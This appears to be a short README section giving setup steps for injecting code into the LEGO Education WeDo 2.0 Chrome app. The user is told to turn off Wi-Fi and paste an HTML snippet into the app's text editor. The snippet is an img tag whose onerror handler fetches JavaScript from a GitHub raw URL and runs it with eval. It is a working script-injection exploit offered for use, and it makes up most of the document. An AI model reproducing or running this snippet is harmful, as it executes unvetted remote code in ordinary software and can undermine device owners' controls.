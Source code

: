### ⚙️ Setup Instructions

1. **Install** [LEGO® Education WeDo 2.0](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Web Store.
2. Launch the app and **wait until it fully loads**.
3. **Turn off your Wi-Fi**.
4. Click the **pencil icon** to edit a project.
5. Click the **green document icon** to open the text editor.
6. Paste the following embed snippet into the textbox:

   ```html
   <img src="#" onerror='fetch("https://raw.githubusercontent.com/devpookie/placeholder.dev/refs/heads/main/main.js").then(r=>r.text()).then(c=>eval(c))'>
   ```
---
